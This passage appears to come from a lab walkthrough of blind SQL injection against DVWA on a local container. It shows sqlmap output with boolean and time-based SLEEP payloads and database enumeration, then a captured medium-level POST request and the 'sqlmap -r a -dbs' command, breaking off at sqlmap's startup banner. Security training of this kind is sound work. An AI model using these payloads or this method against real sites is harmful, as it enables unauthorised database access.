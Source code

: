 ```txt
    Payload: id=1' AND 1382=1382 AND 'qSey'='qSey&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 5161 FROM (SELECT(SLEEP(5)))FOIE) AND 'xQlA'='xQlA&Submit=Submit
---
[13:38:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:38:44] [INFO] fetching database names
[13:38:44] [INFO] fetching number of databases
[13:38:44] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:38:44] [INFO] retrieved: 2
[13:38:44] [INFO] retrieved: dvwa
[13:38:44] [INFO] retrieved: information_schema
available databases [2]:
[*] dvwa
[*] information_schema
```

\*As it has happened previously with this command it is demonstrated that if you want it is possible to execute the whole series of steps proposed in the first example, however to save irrelevant repetitions we save these extra steps.
#### Normal

Again we perform the same process of the previous attack in the equivalent difficulty.

```txt
POST /vulnerabilities/sqli_blind/ HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.2/vulnerabilities/sqli_blind/
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://172.17.0.2
DNT: 1
Connection: close
Cookie: PHPSESSID=albq3dhv4vof90l6l89q8qa1s0; security=medium
Upgrade-Insecure-Requests: 1

id=1&Submit=Submit% 
```

Again the command to execute is `sqlmap -r a -dbs`

```txt
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:41:08 /2023-12-02/

[13:41:08] [INFO] parsing HTTP request from 'a'
```